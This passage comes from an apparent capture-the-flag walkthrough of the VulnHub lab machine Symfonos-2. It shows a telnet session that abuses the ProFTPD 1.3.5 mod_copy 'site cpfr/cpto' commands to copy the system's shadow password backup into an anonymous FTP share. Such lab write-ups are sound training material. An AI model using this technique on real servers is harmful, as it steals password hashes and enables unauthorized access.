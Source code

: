 	![](images/Pasted%20image%2020220124002839.png)
3. Exploit
	1. Copy `/var/backups/shadow.bak` to `/home/aeolus/share` (anonymous share)

		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/exploit]
		└─# telnet $ip 21
		Trying 192.168.236.7...
		Connected to 192.168.236.7.
		Escape character is '^]'.
		220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.236.7]
		site cpfr /var/backups/shadow.bak
		350 File or directory exists, ready for destination name
		site cpto /home/aeolus/share/shadow.bak
		250 Copy successful
		```

		![](images/Pasted%20image%2020220124003535.png)
